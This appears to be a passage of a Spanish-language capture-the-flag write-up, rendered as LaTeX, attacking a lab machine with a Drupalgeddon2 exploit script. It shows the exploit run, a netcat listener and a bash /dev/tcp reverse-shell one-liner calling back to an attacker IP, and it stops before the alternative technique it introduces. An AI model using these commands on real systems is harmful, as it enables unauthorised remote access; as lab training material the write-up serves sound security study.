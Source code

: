 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
\hypertarget{druppalgeddon-1}{%
\subsection*{Druppalgeddon}\label{druppalgeddon-1}}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ruby}\NormalTok{ druppalgeddon2.rb 10.10.10.233}
\FunctionTok{whoami}
\CommentTok{#Output}
\OperatorTok{>} \ExtensionTok{apache}
\ExtensionTok{ifconfig}
\CommentTok{#Output}
\OperatorTok{>} \ExtensionTok{10.10.10.233}
\end{Highlighting}
\end{Shaded}

Entablamos ahora una reverse shell para sacarse de este contexto.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  maquina de attackante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  druppalgeddon2 shell

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.20/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Esto no functiona porque le commando contiene \textbf{bad chars}. Como la maquina no tiene \textbf{nc} ni \textbf{ncat} la tecnica seria la siguiente:
\end{document}
